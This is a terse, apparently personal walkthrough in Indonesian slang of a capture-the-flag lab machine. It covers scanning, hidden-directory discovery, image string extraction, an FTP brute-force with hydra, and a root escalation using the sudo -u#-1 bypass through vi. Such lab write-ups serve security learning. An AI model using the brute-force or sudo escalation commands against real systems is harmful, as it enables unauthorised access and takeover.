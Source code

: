 # boot:
1. scan nmap 21 22 80 kebuka fuzz ada asset cek style css ada /secret
2. ke secret matiin js di about:config javascript.enable nya off aja
3. buka nanri ada kayak /WExYY2Cv-qU/ download coba 
4. strings aja fotonya -> nanti ada creds ftp
5. hydra aja -> hydra -l uname -P wordlist ip ftp
6. login ftp get file kalau ada
7. decode aja -> brainfc decoder cari aja
8. ssh ada msg -> cari aja di find / -name msg_nya 2>/dev/null
9. ada dir muncul -> ls -la aja ada creds passwd ternyata itu jir kukira decode dulu
10. klaim user flag

# PE :  
1. https://www.exploit-db.com/exploits/47502
2. sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt -> :!/bin/bash -> klaim root
